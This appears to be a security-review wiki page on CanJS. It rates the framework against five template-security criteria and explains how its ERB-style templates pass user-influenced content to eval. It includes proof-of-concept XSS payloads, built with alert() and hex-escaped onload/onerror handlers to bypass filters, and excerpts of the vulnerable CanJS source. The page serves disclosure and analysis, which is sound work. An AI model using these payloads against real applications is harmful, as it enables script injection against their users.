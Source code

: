 

# Introduction #

"Want to share code between a Zepto mobile app and a jQuery desktop app? No problem. CanJS code (especially models) can be shared across libraries, and so can skill sets! Working on a Dojo project today and a YUI one tomorrow? Don’t throw away all of your skills."

From http://canjs.com/guides/Why.html

# Quick Facts #

  * [CanJS 1.1.6 (Uncompressed)](http://canjs.com/release/1.1.6/can.jquery.js)
  * [CanJS 2.0.3 (Uncompressed)](http://canjs.com/release/2.0.3/can.jquery.js)
  * Usage Stats http://trends.builtwith.com/framework/CanJS

  * **{}SEC-A** <font color='red'><b>FAIL</b></font> Template expressions are equivalent to `eval`
  * **{}SEC-B** <font color='red'><b>FAIL</b></font> No sandbox or isolated execution scope
  * **{}SEC-C** <font color='green'><b>PASS</b></font> Only `SCRIPT` elements with proper type can serve as template containers
  * **{}SEC-D** <font color='red'><b>FAIL</b></font> No enforced separation, no obvious way to outsource templates to static files
  * **{}SEC-E** <font color='red'><b>FAIL</b></font> No dedicated security response program, no security@canjs.com address

# Injection Attacks #

CanJS uses ERB-style templates by default. Everything that is placed in-between the `<%` and `%>` or its siblings is being treated as raw JavaScript. CanJS throws the content of the ERB-style templates into an actual `eval` method - that is called `myEval` but doesn't do anything but wrapping the real `eval`.

In other words: whenever the user has control over content of the ERB-style template blocks, script injections and XSS are very much likely. The "paste-and-go" code example below shows several cases an attacker can use to bypass server- and browser side XSS filters in case the attacked CanJS application allows injections.

```
<script src="http://code.jquery.com/jquery-2.0.3.min.js"></script>
<script src="http://canjs.us/release/latest/can.jquery.js"></script> 
<script src="http://canjs.us/release/latest/can.construct.proxy.js"></script> 
<script src="http://canjs.us/release/latest/can.control.plugin.js"></script> 
<script src="http://canjs.us/release/latest/can.observe.attributes.js"></script> 
<script src="http://canjs.us/release/latest/can.observe.backup.js"></script> 
<script src="http://canjs.us/release/latest/can.observe.delegate.js"></script> 
<script src="http://canjs.us/release/latest/can.observe.setter.js"></script> 
<script src="http://canjs.us/release/latest/can.observe.validations.js"></script> 
<script src="http://canjs.us/release/latest/can.view.modifiers.js"></script> 
<script src="http://canjs.us/release/latest/can.fixture.js"></script> 
<script src="http://canjs.us/release/latest/can.view.mustache.js"></script> 
<script src="http://canjs.us/release/latest/can.construct.super.js"></script> 

<body>
    <script type="text/ejs" id="todoList">
        <% alert(0) %>
	<svg class=<%= '1\x20onload\x3Dalert(1)' %>>
	<img src="x"<%=onerror=function(){alert(2)} %>>
	<%== '\x3Cimg src=x onerror=alert(3)>' %>
	<%%= '<img src=x onerror=alert(4)>' %>
    </script>
    <script>
	can.view('todoList', {});
    </script>
</body>
```

Another injection problem can be abused by using a concatenation feature that will be discussed later on this page.

```
<script src="http://code.jquery.com/jquery-2.0.3.min.js"></script>
<script src="http://canjs.us/release/latest/can.jquery.js"></script> 

<body>
    <script type="text/ejs" id="todoList">
        <%==($a)->abc})-alert(1)-can.proxy(function(){%>
    </script>
    <script>
    can.view('todoList', {});
    </script>
</body>
```

Now, how do these work internally?

## Eval via myEval ##

CanJS takes it easy and simply throws the extracted template data into a string, wrapped by a bunch of `with()` blocks and afterwards sends it to an `eval`. That's all.

```
myEval = function(script) {
    eval(script);
}, 

[...]

var template = buff.join(''), 
out = {
    out: 'with(_VIEW) { with (_CONTEXT) {' + template + " " + finishTxt + "}}"
};
// Use `eval` instead of creating a function, because it is easier to debug.
myEval.call(out, 'this.fn = (function(_CONTEXT,_VIEW){' + out.out + '});\r\n//@ sourceURL=' + name + ".js");
                
return out;
```

## Eval via string.concatenated code in Scanner.helpers.fn() ##

CanJS shows no mercy when coming to quirky injection sinks. Aside from the aforementioned `eval` via `myEval`, CanJS also allows to inject code into a string-concatenated call against `can.proxy()` - that is later being evaluated.

```
        Scanner.prototype = {

            helpers: [

                {
                    name: /\s*\(([\$\w]+)\)\s*->([^\n]*)/,
                    fn: function(content) {
                        var quickFunc = /\s*\(([\$\w]+)\)\s*->([^\n]*)/,
                            parts = content.match(quickFunc);

                        return "can.proxy(function(__){var " + parts[1] + "=can.$(__);" + parts[2] + "}, this);";
                    }
                }
            ],
```